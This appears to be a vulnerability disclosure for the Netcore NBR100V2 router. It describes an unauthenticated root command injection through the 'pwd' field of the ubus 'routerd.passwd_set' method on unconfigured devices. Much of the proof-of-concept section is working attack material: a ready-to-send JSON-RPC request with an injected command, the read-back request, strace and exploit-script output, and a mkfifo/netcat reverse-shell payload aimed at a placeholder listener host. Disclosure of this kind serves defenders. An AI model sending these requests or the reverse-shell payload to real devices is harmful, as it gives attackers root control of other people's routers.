


# Netcore NBR100V2 Router

- Vendor: Netcore
- Product: Netcore NBR100V2
- Firmware Version: V1.3.240614.030928 (LEDE 17.01-SNAPSHOT, mipsel / MT7621)
- Vulnerability Type: Unauthenticated Command Injection (CWE-78), Missing Authentication for Critical Function (CWE-306)

## Overview

An unauthenticated command injection vulnerability was identified in the Netcore NBR100V2 router. When the device is in its factory-default / unconfigured state, a remote attacker on the LAN can send a crafted ubus JSON-RPC request to the `/ubus` endpoint and execute arbitrary OS commands with root privileges, without any credentials. The vulnerable call:

`POST /ubus` → ubus object `routerd`, method `passwd_set`

Successful exploitation requires the device to be unconfigured (`system.@system[0].initialized == 0`), which is the case out-of-the-box and after a factory reset, until the user completes the first configuration wizard.

## Vulnerability Details

The web stack is a uhttpd single-process front-end (HTTP 80/443/23355) exposing the ubus JSON-RPC endpoint `/ubus` (enabled at first boot by `/etc/uci-defaults/00_uhttpd_ubus`, which sets `uhttpd.main.ubus_prefix=/ubus`). The back-end service `/usr/bin/routerd` runs as **root** and registers the ubus object `routerd`.

**Authentication flaw (CWE-306).** rpcd loads `/usr/share/rpcd/acl.d/unauthenticated.json` while `initialized=0`. This permissive ACL lists `passwd_set` under `write.ubus.routerd`, so an anonymous ubus session — the all-zero string `00000000000000000000000000000000` — is allowed to call `routerd.passwd_set`. After the first configuration, `routerd.param_status_set` atomically replaces the file with the restricted `unauthenticated.json.initialized` (`unlink` + `symlink` + `uci set initialized=1` + `killall -SIGHUP rpcd`), and the method is then rejected with `Access denied` for anonymous callers. The ACL transition is one-way (permissive → restricted); there is no unauthenticated path back.

**Command injection (CWE-78).** `passwd_set` accepts `{user, pwd, by}` (all String). The `pwd` value is concatenated, without any validation or quoting, into a shell command passed to `system()`:





```c
// passwd_set_api() — /usr/bin/routerd
snprintf(buf, size, "uci set auto_ac.auto_ac.passwd=%s;uci commit auto_ac", pwd);
system(buf);
```

The `user` field IS validated (must be an existing account such as `root`, otherwise the method returns `Invalid argument` and aborts before `system()`), but **`pwd` is not validated at all**. Because the value is concatenated unquoted into a command line executed through the shell, `pwd = "P;<CMD>"` causes the device to run `uci set ...=P ; <CMD> ; uci commit`.

The actual command executed on the device (captured during testing via strace of the resulting execve):

```
execve("/bin/sh", ["sh","-c","uci set auto_ac.auto_ac.passwd=P;id>/www/rce.txt;uci commit auto_ac"], ...)
execve("/usr/bin/id", ["id"], ...) = 0
```

The same handler also embeds `user` into `system("changeuser <user>")` and `system("passwd <user>")`, but those are unreachable for injection because of the `user` validity check.

## Proof of Concept

No login required (factory-default / unconfigured device). Send the ubus JSON-RPC call with an anonymous session and the injection in `pwd`:

```http
POST /ubus HTTP/1.1
Host: <target>
Content-Type: application/json
Content-Length: 176

{"jsonrpc":"2.0","id":1,"method":"call","params":["00000000000000000000000000000000","routerd","passwd_set",{"user":"root","pwd":"P;id>/www/rce.txt","by":"web"}]}
```

Response:

```json
{"jsonrpc":"2.0","id":1,"result":[0]}
```

Read the command output back over HTTP (routerd runs as root and can write the web document root `/www`):

```http
GET /rce.txt HTTP/1.1
Host: <target>

```

Response body: `uid=0(root) gid=0(root) groups=0(root)`

Notes:
- The `user` field must be a valid existing account (e.g. `root`); the injection must go through `pwd`.
- The method-arguments object (`params[3]`) must NOT contain `ubus_rpc_session` — `uhttpd_ubus.so` derives the session from the outer `params[0]` and otherwise rejects the call with `{"error":{"code":-32602,"message":"Invalid parameters"}}`.
- Reverse shell payload (busybox `nc` has no `-e`, use a mkfifo pipe):

```
pwd = "P;rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/usr/bin/nc <LHOST> <LPORT> >/tmp/f"
```

## Impact

An unauthenticated attacker on the LAN can execute arbitrary commands with **root** privileges whenever the device is in its factory-default / unconfigured state (out-of-the-box, or after a factory reset until first configuration), resulting in full device compromise.

## Reproduction Result

The vulnerability was dynamically verified against the firmware emulated with qemu-mipsel (user-mode + system emulation). The injected command was confirmed to execute as root via both strace of the `system()` execve and an HTTP read-back of the `id` output:

```
$ python3 exploit_passwd_set.py http://<target>
[*] app_info  : reachable, initialized = 0 | SwVersion = V1.3.240614.030928
[*] inject    : id>/www/rce_proof.txt
[+] RCE proof (GET /rce_proof.txt):
    uid=0(root) gid=0(root) groups=0(root)
[+] ============ UNAUTH ROOT RCE CONFIRMED ============
```

A companion Python EXP (`exploit_passwd_set.py`) supports write-to-webroot verification, arbitrary command execution, and a reverse-shell mode.
